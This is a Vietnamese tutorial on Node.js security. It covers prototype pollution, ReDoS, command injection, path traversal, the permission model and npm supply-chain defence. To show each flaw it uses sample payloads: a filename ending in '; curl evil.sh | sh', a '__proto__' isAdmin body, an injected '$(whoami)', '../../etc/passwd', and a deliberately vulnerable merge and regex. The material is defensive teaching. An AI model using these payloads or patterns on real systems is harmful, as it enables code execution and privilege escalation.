


## Bối cảnh & vấn đề

Một endpoint `PATCH /settings` merge sâu request body vào object settings của user. Một ngày, tất cả user đều thấy menu quản trị: ai đó đã gửi body `{"__proto__": {"isAdmin": true}}`. Một service khác validate email bằng regex tự viết; một request có email dài 40 ký tự làm cả process đứng im **20 giây**, mọi request khác timeout, và load balancer đánh dấu pod chết. Endpoint chuyển file sang PDF ghép tên file vào lệnh `exec`, và một cái tên chứa `; curl evil.sh | sh` là đủ để chạy code tuỳ ý trên server.

Ba lỗ hổng này có điểm chung với Node: chúng khai thác chính những đặc tính của runtime. Prototype chain của JavaScript làm một lần ghi nhầm lan ra **mọi object** trong process. Mô hình một thread làm một regex chậm thành **DoS toàn service**. Và hệ sinh thái npm với hàng trăm dependency transitive làm **supply chain** thành bề mặt tấn công lớn nhất. Cơ chế prototype ở mức ngôn ngữ đã có trong bài [prototypes & objects](/tracks/javascript/learn/prototypes-objects); các lỗ hổng web tổng quát (XSS, CSRF, SSRF, injection SQL) nằm ở track [web security](/tracks/web-security). Bài này tập trung vào phía runtime và vận hành Node.

**Interview angle:** interviewer muốn nghe cơ chế cụ thể ("vì sao `__proto__` trong JSON nguy hiểm", "vì sao một regex làm sập cả server") và phòng thủ nhiều lớp, không phải "dùng thư viện X là an toàn".

## Khái niệm

### Prototype pollution

Mọi object thường kế thừa từ `Object.prototype`. Nếu kẻ tấn công ghi được một property lên `Object.prototype`, **mọi object** trong process "có" property đó khi đọc (trừ khi chúng có own property trùng tên). Cửa ngõ phổ biến nhất là hàm **deep merge** hoặc **set-by-path** chạy trên input người dùng: khi gặp key `__proto__`, biểu thức `target['__proto__']` trả về `Object.prototype` (qua accessor `__proto__`), và vòng đệ quy tiếp tục ghi vào đó. Đường thứ hai là `constructor.prototype`: `target.constructor` là `Object`, `Object.prototype` là đích.

`JSON.parse('{"__proto__": {...}}')` không tự gây pollution: nó tạo một **own property** tên `"__proto__"`. Nguy hiểm đến khi object đó đi qua một hàm merge dùng `for...in` hoặc gán `target[key]`. Hậu quả tuỳ "gadget" có sẵn: đổi quyền (`isAdmin`), đổi option của thư viện (template engine, `child_process` với `shell`, `env`), gây crash (ghi đè `toString`), hoặc tới RCE khi gặp gadget phù hợp.

### Phòng thủ prototype pollution

- **Validate schema nghiêm ngặt** ở biên (zod `.strict()`, JSON Schema với `additionalProperties: false`): chỉ các key đã biết mới đi tiếp. Đây là lớp quan trọng nhất.
- Không deep-merge input thô vào object sống lâu. Nếu phải merge, bỏ qua `__proto__`, `constructor`, `prototype`, và chỉ duyệt own property (`Object.keys`, `Object.hasOwn`).
- Dictionary từ dữ liệu người dùng dùng `Map` hoặc `Object.create(null)` (không có prototype).
- Kiểm tra bằng `Object.hasOwn(obj, key)` thay vì `key in obj` hay `obj[key] !== undefined`.
- Cờ `--disable-proto=delete` (hoặc `throw`) gỡ accessor `__proto__` khỏi `Object.prototype`. Nó chặn đường `__proto__`, **không** chặn đường `constructor.prototype`.
- `Object.freeze(Object.prototype)` lúc khởi động chặn mọi ghi, nhưng không an toàn tuyệt đối để bật mù: nó gây "override mistake", tức gán `obj.toString = fn` (hay bất kỳ tên nào trùng property của `Object.prototype`) trên một object thường sẽ ném lỗi trong strict mode, và một số thư viện làm đúng việc đó.
- Cập nhật thư viện merge/parse (lodash, qs, các parser query string lồng nhau) và theo dõi advisory.

### ReDoS

Engine regex của V8 (Irregexp) là **backtracking**: khi một nhánh không khớp, nó quay lui thử cách chia khác. Với **quantifier lồng nhau** hoặc **alternation chồng lấn** (`(a+)+$`, `(\w+\s?)*$`, `([a-zA-Z0-9]+)*@`), một input "gần khớp" (đúng ở phần lớn, sai ở cuối) làm số cách chia tăng **theo cấp số nhân** với độ dài. Đo trên Node 24 với `/^([a-zA-Z0-9]+)*@example\.com$/` và input `'a'.repeat(n) + '!'`: thời gian **gấp đôi mỗi ký tự** thêm vào.

Vì regex chạy **đồng bộ** trên main thread, một request độc hại chặn event loop suốt thời gian đó: mọi request khác, health check, timer đều chờ. Với Node, ReDoS không làm chậm một request, nó làm **sập cả instance**. Nguồn hay gặp: regex validate email/URL tự viết, route pattern, parse user-agent, regex do người dùng nhập (search nâng cao, rule filter).

### Phòng thủ ReDoS

Giới hạn **độ dài input** trước khi match (email không cần dài quá 254 ký tự); viết regex không có quantifier lồng nhau (`/^[a-zA-Z0-9]+@example\.com$/` tương đương về ý nghĩa với ví dụ trên và chạy tuyến tính); dùng validator đã kiểm chứng thay vì tự viết; lint bằng `eslint-plugin-regexp` hoặc `safe-regex`/`recheck` trong CI; với regex do người dùng cung cấp, dùng engine không backtracking như **RE2** (package `re2`), hoặc chạy trong worker có timeout. V8 có cờ thử nghiệm dùng engine tuyến tính khi phát hiện backtrack quá nhiều (`--enable-experimental-regexp-engine-on-excessive-backtracks`, verify), nhưng không nên dựa vào nó.

### Command injection

`child_process.exec(cmd)` chạy chuỗi `cmd` qua **shell** (`/bin/sh -c`). Shell hiểu `;`, `&&`, `|`, `$(...)`, backtick, redirect. Ghép input người dùng vào chuỗi đó nghĩa là người dùng viết được lệnh shell: **RCE**. `execFile(file, args)` và `spawn(file, args)` (không có `shell: true`) gọi thẳng chương trình với **mảng argument**, không qua shell, nên `; curl ...` chỉ là một chuỗi ký tự trong argv. `spawn(cmd, args, { shell: true })` thì **nối** args vào một chuỗi và đưa cho shell, nên mảng args không còn bảo vệ gì; Node 24 in `DEP0190` cảnh báo đúng điều này.

Một argument vẫn có thể nguy hiểm dù không qua shell: tên file bắt đầu bằng `-` bị chương trình hiểu là option (**argument injection**, ví dụ `--output=/etc/...`). Dùng `--` để kết thúc option khi chương trình hỗ trợ, và validate input theo whitelist.

### Path traversal

`path.join(ROOT, userInput)` với `userInput = '../../etc/passwd'` cho ra `/etc/passwd`. Phòng thủ: đừng dùng tên người dùng gửi làm đường dẫn (dùng id phía server rồi tra ra đường dẫn); nếu buộc phải dùng, `path.resolve(ROOT, input)` rồi kiểm tra kết quả bắt đầu bằng `ROOT + path.sep`; chặn byte null và chuẩn hoá encoding trước khi kiểm tra.

### Permission model của Node

Chạy Node với `--permission` bật cơ chế hạn chế quyền theo process: mặc định cấm đọc/ghi filesystem, tạo child process, worker, native addon; mở từng quyền bằng `--allow-fs-read=<path>`, `--allow-fs-write=<path>`, `--allow-child-process`, `--allow-worker`, `--allow-addons` (và `--allow-net` ở các version mới, verify). Truy cập bị cấm ném `ERR_ACCESS_DENIED`. Đây là một lớp phòng thủ theo chiều sâu (một dependency bị chiếm quyền không đọc được `~/.aws/credentials`), không phải sandbox cho code không tin cậy; mức ổn định và phạm vi phụ thuộc version (verify).

### Supply chain của npm

Một service Node điển hình có vài chục dependency trực tiếp và hàng trăm tới hàng nghìn dependency transitive. Kẻ tấn công nhắm vào đó bằng: chiếm tài khoản maintainer rồi publish bản patch độc hại, **typosquatting** (tên gần giống package phổ biến), **dependency confusion** (publish package public trùng tên package nội bộ), và mã độc trong **install script** (`preinstall`/`postinstall` chạy với quyền của người cài, trên máy dev và CI có secret).

Phòng thủ theo lớp: **lockfile + `npm ci`** (không nhận version mới âm thầm) và review diff lockfile trong PR; **chặn install script** (`--ignore-scripts`, cho phép có chọn lọc cho package cần build native); **scan** (`npm audit`, Dependabot/Renovate, Snyk, OSV-Scanner) và ưu tiên theo **reachability**, không nâng mù; **giảm dependency** bằng built-in (`fetch`, `node:test`, `crypto.randomUUID`, `--env-file`, `util.parseArgs`, `fs.glob`); **provenance/signature** (`npm audit signatures`, package publish có provenance từ CI); **registry proxy** nội bộ với scope cho package nội bộ (chống dependency confusion); **cooldown** trước khi nhận version mới vài ngày, vì nhiều bản độc hại bị phát hiện và gỡ trong 24–72 giờ (các package manager có option kiểu minimum release age, verify theo tool); và **least privilege** lúc runtime (user không phải root, filesystem read-only, permission model, network egress hạn chế).

## Cơ chế hoạt động

Đường đi của một payload prototype pollution qua hàm merge ngây thơ:



Diễn giải: bước nguy hiểm không phải `JSON.parse` mà là phép gán `target[key]` khi `key` là `__proto__`: accessor biến một lần ghi "vào object con" thành ghi vào prototype dùng chung. Từ đó, lỗi có ở một endpoint trở thành trạng thái của **toàn process** cho tới khi restart. Các lớp phòng thủ chặn ở những điểm khác nhau, nên dùng nhiều lớp.

Vì sao một regex làm sập cả instance:



## Ví dụ thực tế

### Prototype pollution qua deep merge, và các lớp chặn

```js
// pp.mjs
function merge(t, s) {
  for (const k in s) {
    if (typeof s[k] === 'object' && s[k] !== null) merge((t[k] ??= {}), s[k]);
    else t[k] = s[k];
  }
  return t;
}
const body = JSON.parse('{"theme":"dark","__proto__":{"isAdmin":true}}');
console.log('JSON.parse made an own "__proto__" key:', Object.hasOwn(body, '__proto__'));
const settings = merge({}, body);
const user = { name: 'guest' };
console.log('guest.isAdmin =', user.isAdmin, '| ({}).isAdmin =', ({}).isAdmin);
delete Object.prototype.isAdmin;
function safeMerge(t, s) {
  for (const k of Object.keys(s)) {
    if (k === '__proto__' || k === 'constructor' || k === 'prototype') continue;
    if (typeof s[k] === 'object' && s[k] !== null) safeMerge((Object.hasOwn(t, k) ? t[k] : (t[k] = {})), s[k]);
    else t[k] = s[k];
  }
  return t;
}
safeMerge({}, body);
console.log('after safeMerge: ({}).isAdmin =', ({}).isAdmin);
const dict = Object.create(null); dict['__proto__'] = 'just a key';
console.log('Object.create(null) dict:', Object.keys(dict), Object.getPrototypeOf(dict));
```

```text
$ node pp.mjs
JSON.parse made an own "__proto__" key: true
guest.isAdmin = true | ({}).isAdmin = true
after safeMerge: ({}).isAdmin = undefined
Object.create(null) dict: [ '__proto__' ] null
$ node --disable-proto=delete pp.mjs | head -2
JSON.parse made an own "__proto__" key: true
guest.isAdmin = undefined | ({}).isAdmin = undefined
$ node -e '... merge({}, JSON.parse(`{"constructor":{"prototype":{"isAdmin":true}}}`)); console.log(({}).isAdmin)'
constructor.prototype path, isAdmin = true
$ node --disable-proto=throw -e 'try { ({}).__proto__ } catch(e) { console.log(e.code) }'
ERR_PROTO_ACCESS
```

Một request làm **mọi** object, kể cả `user` được tạo sau đó ở chỗ khác, có `isAdmin = true`. `--disable-proto=delete` chặn đường `__proto__` (ghi thành own property vô hại), nhưng payload qua `constructor.prototype` vẫn thành công với merge ngây thơ. Bản `safeMerge` chặn cả hai; schema strict ở biên chặn trước khi tới merge. Với thử nghiệm `Object.freeze(Object.prototype)`:

```text
$ node -e '"use strict"; Object.freeze(Object.prototype); const o={}; try { o.toString = () => "x" } catch(e) { console.log("override mistake:", e.message) }'
override mistake: Cannot assign to read only property 'toString' of object '#<Object>'
```

Freeze chặn pollution, nhưng code hợp lệ gán `obj.toString`, `obj.constructor` hay `obj.valueOf` trên object thường sẽ vỡ. Bật nó cần test toàn bộ dependency, nên nó không phải "bật là xong".

### ReDoS: thời gian gấp đôi mỗi ký tự

```js
// redos.mjs
const EMAIL = /^([a-zA-Z0-9]+)*@example\.com$/;
for (const n of [24, 28, 30, 32, 34]) {
  const input = 'a'.repeat(n) + '!';
  const t = performance.now(); EMAIL.test(input);
  console.log(`vulnerable, n=${n}: ${(performance.now() - t).toFixed(0).padStart(6)} ms`);
}
const SAFE = /^[a-zA-Z0-9]+@example\.com$/;
const t = performance.now(); SAFE.test('a'.repeat(100000) + '!'); console.log(`fixed regex, n=100000: ${(performance.now() - t).toFixed(1)} ms`);
```

```text
vulnerable, n=24:      1 ms
vulnerable, n=28:      6 ms
vulnerable, n=30:     22 ms
vulnerable, n=32:     87 ms
vulnerable, n=34:    343 ms
fixed regex, n=100000: 0.4 ms
```

Mỗi 2 ký tự làm thời gian tăng khoảng 4 lần. Ngoại suy: 35 ký tự khoảng 0,7 giây, 40 ký tự khoảng 20 giây, 45 ký tự hơn 10 phút, tất cả trên main thread. `(X+)*` cho phép chia chuỗi `aaaa` thành các nhóm theo 2^(n-1) cách, và engine thử hết khi phần `@example.com` không khớp. Bản sửa bỏ nhóm lồng nhau; ý nghĩa giống hệt nhưng chạy tuyến tính: 100.000 ký tự trong 0,4 ms. Tìm regex nguy hiểm trong codebase lớn: lint (`eslint-plugin-regexp` có rule `no-super-linear-backtracking`), công cụ phân tích như `recheck` chạy trong CI, fuzz với input dài gần khớp, và rà cả dependency (advisory ReDoS rất phổ biến trong npm).

### Command injection: exec so với execFile

```js
// inject.mjs
import { exec, execFile } from 'node:child_process';
import { promisify } from 'node:util';
const name = 'report.docx; echo INJECTED: $(whoami)';   // "filename" do attacker gửi
const a = await promisify(exec)(`echo converting /uploads/${name}`);
console.log('exec     ->', JSON.stringify(a.stdout));
const b = await promisify(execFile)('echo', ['converting', `/uploads/${name}`]);
console.log('execFile ->', JSON.stringify(b.stdout));
```

```text
exec     -> "converting /uploads/report.docx\nINJECTED: <user>\n"
execFile -> "converting /uploads/report.docx; echo INJECTED: $(whoami)\n"
$ node -e 'require("child_process").spawn("echo",["a; echo b"],{shell:true}).stdout.on("data",d=>process.stdout.write(d))'
(node:54156) [DEP0190] DeprecationWarning: Passing args to a child process with shell option true can lead to security vulnerabilities, as the arguments are not escaped, only concatenated.
a
b
```

Với `exec`, `$(whoami)` được shell chạy thật (tên user đã được che trong output). Với `execFile`, cả chuỗi chỉ là một argument. `spawn` với `shell: true` chạy lệnh thứ hai dù args là mảng. Endpoint convert an toàn:

```ts
app.post("/convert", async (req, res) => {
  const file = await uploads.findById(req.body.fileId);           // id phía server, không dùng tên user gửi
  if (!file) return res.status(404).end();
  const input = safePath(UPLOAD_DIR, file.storedName);            // resolve + kiểm tra nằm trong UPLOAD_DIR
  await convertLimit(() => execFileP("libreoffice",
    ["--headless", "--convert-to", "pdf", "--outdir", OUT_DIR, "--", input],
    { timeout: 60_000, maxBuffer: 1024 * 1024 }));                // timeout, giới hạn output, giới hạn concurrency
  res.json({ ok: true });
});
```

(Minh hoạ.) Ngoài bỏ shell: dùng id phía server thay vì tên file, `--` trước argument có thể bắt đầu bằng `-`, timeout (công cụ CLI treo là chuyện thường), giới hạn concurrency (LibreOffice tốn vài trăm MB mỗi process), và chạy trong container hoặc user ít quyền.

### Path traversal

```js
// trav.mjs
const ROOT = '/srv/files';
const unsafe = (id) => path.join(ROOT, id);
const safe = (id) => { const p = path.resolve(ROOT, id); if (!p.startsWith(ROOT + path.sep)) throw new Error('path traversal'); return p; };
```

```text
report.pdf         join -> /srv/files/report.pdf
                   safe -> /srv/files/report.pdf
../../etc/passwd   join -> /etc/passwd
                   safe -> rejected (path traversal)
```

Kiểm tra với `ROOT + path.sep` (không chỉ `ROOT`) để `/srv/files-backup` không lọt qua. Symlink bên trong thư mục cho phép vẫn có thể trỏ ra ngoài; nếu người dùng tạo được symlink, dùng `fs.realpath` trước khi kiểm tra.

### Permission model

```text
$ node --permission --allow-fs-read="$PWD/*" perm.cjs     # perm.cjs gọi execFileSync("echo")
Error: Access to this API has been restricted. Use --allow-child-process to manage permissions.
  code: 'ERR_ACCESS_DENIED',
$ node --permission --allow-fs-read="$PWD/*" -e 'require("fs").readFileSync("/etc/passwd")'
  code: 'ERR_ACCESS_DENIED',
  resource: '/etc/passwd'
```

Một dependency bị chiếm quyền chạy trong process có `--permission` không tạo được child process và không đọc được file ngoài danh sách cho phép. Đây là lớp phòng thủ bổ sung, đặt cạnh container read-only và user không phải root.

### Incident: một package bạn dùng bị chiếm quyền hôm qua

1. **Xác định phơi nhiễm**: version độc hại là gì; `npm ls <pkg>` và lockfile của mọi repo (tìm cả transitive); build nào trong khoảng thời gian đó đã cài nó (log CI, image digest).
2. **Chặn lan rộng**: pin về version an toàn (`overrides`), chặn version đó ở registry proxy, dừng deploy mới từ các build bị ảnh hưởng.
3. **Đánh giá tác động**: payload làm gì (đọc env, gửi token, cài backdoor), chạy lúc install hay runtime; máy nào đã chạy nó (laptop dev, CI runner, production).
4. **Xoay vòng secret** mà môi trường bị nhiễm có quyền truy cập: token npm, cloud credentials, DB password, secret trong CI.
5. **Rebuild sạch** từ lockfile đã sửa, deploy lại, và dọn cache CI.
6. **Sau sự cố**: bật `--ignore-scripts`, cooldown cho version mới, provenance, giảm dependency, alert khi lockfile thay đổi bất thường.

## Trade-offs & lựa chọn thay thế

| Lỗ hổng | Lớp chặn chính | Lớp chặn bổ sung | Chi phí |
|---|---|---|---|
| Prototype pollution | Schema strict ở biên | safeMerge, `Map`/`Object.create(null)`, `--disable-proto`, cập nhật lib | Thấp; freeze prototype có rủi ro tương thích |
| ReDoS | Giới hạn độ dài + regex tuyến tính | Lint/CI, RE2 cho regex người dùng, worker có timeout | Thấp |
| Command injection | `execFile`/`spawn` không shell | Id phía server, `--`, timeout, container ít quyền | Thấp |
| Path traversal | Không dùng input làm path | `resolve` + kiểm tra prefix, `realpath` | Thấp |
| Supply chain | Lockfile + `npm ci` + chặn install script | Scan, provenance, cooldown, registry proxy, permission model | Vừa (quy trình) |

| Công cụ scan | Ưu | Nhược |
|---|---|---|
| `npm audit` | Có sẵn | Nhiều cảnh báo không reachable, dễ gây "mệt cảnh báo" |
| Dependabot / Renovate | Tự mở PR nâng version | Nhận version mới nhanh, cần cooldown và review |
| Snyk / Socket / OSV-Scanner | Reachability, phát hiện hành vi đáng ngờ của package | Tốn phí hoặc cấu hình |

Chọn thế nào: các lớp chặn chính đều rẻ và nên là mặc định trong code review (schema strict, không shell, không ghép path, giới hạn độ dài input). Supply chain là bài toán quy trình: lockfile và `npm ci` là tối thiểu, chặn install script và cooldown là bước tiếp theo có hiệu quả cao nhất.

## Edge cases & failure modes

- **Pollution tồn tại tới khi restart**: một request độc hại thay đổi hành vi của mọi request sau đó trên instance đó; các instance khác bình thường, nên lỗi trông "ngẫu nhiên".
- **Parser query string lồng nhau**: `?a[__proto__][x]=1` đi vào object qua parser (Express 4 dùng `qs` với `extended`); Express 5 mặc định parser đơn giản hơn (verify), tham khảo track [Express](/tracks/express).
- **Regex trong dependency**: lỗ hổng ReDoS trong thư viện parse header/user-agent vẫn chặn loop của bạn; giới hạn kích thước header ở proxy và trong `http.Server` (`maxHeaderSize`).
- **`exec` "an toàn" vì đã escape**: tự escape shell gần như luôn sót trường hợp (quote, newline, encoding); không dùng shell mới là cách đúng.
- **Install script của package hợp lệ**: chặn toàn bộ làm vỡ `sharp`, `bcrypt`; cần allowlist.
- **Scanner báo 200 lỗ hổng**: nâng mù mọi thứ gây vỡ; ưu tiên theo mức độ, reachability, và việc package có chạy trong production hay chỉ trong dev.
- **Permission model không phải sandbox**: code có quyền đọc một thư mục vẫn đọc được mọi thứ trong đó; không dùng nó để chạy code không tin cậy.

## Pitfalls

- ❌ Deep merge `req.body` vào object settings → ✅ validate schema strict, merge chỉ own keys và bỏ `__proto__`/`constructor`/`prototype`.
- ❌ `if (key in obj)` với key từ người dùng → ✅ `Object.hasOwn(obj, key)`, hoặc `Map`.
- ❌ Tin `--disable-proto` là đủ → ✅ nó không chặn `constructor.prototype`; vẫn cần schema và safeMerge.
- ❌ Regex tự viết có `(x+)*` để validate input → ✅ giới hạn độ dài, regex tuyến tính, lint trong CI, RE2 cho regex người dùng.
- ❌ `exec(\`convert ${name}\`)` → ✅ `execFile('convert', [..., '--', path])` với id phía server, timeout, giới hạn concurrency.
- ❌ `spawn(cmd, args, { shell: true })` rồi nghĩ mảng args là an toàn → ✅ không bật `shell`.
- ❌ `npm install` trong CI, cho mọi install script chạy, nhận version mới ngay khi publish → ✅ `npm ci`, `--ignore-scripts` + allowlist, cooldown, provenance.

## Tóm tắt

- Prototype pollution: `target['__proto__']` trỏ tới `Object.prototype`, một request làm mọi object có `isAdmin = true` (đo được); `JSON.parse` chỉ tạo own key, merge mới là bước nguy hiểm.
- `--disable-proto=delete` chặn đường `__proto__` nhưng không chặn `constructor.prototype` (đo được); freeze prototype gây override mistake.
- ReDoS: regex backtracking với quantifier lồng nhau, thời gian gấp đôi mỗi ký tự (34 ký tự: 343 ms); trên Node nó chặn cả instance.
- Command injection: `exec` qua shell chạy `$(whoami)`; `execFile`/`spawn` không shell thì không; `shell: true` nối args (DEP0190).
- Path traversal: `path.join(ROOT, '../../etc/passwd')` ra `/etc/passwd`; resolve + kiểm tra prefix `ROOT + sep`.
- `--permission` chặn child process và file ngoài allowlist (`ERR_ACCESS_DENIED`), là lớp phòng thủ bổ sung.
- Supply chain: lockfile + `npm ci`, chặn install script, scan theo reachability, giảm dependency, provenance, cooldown, registry proxy, least privilege.
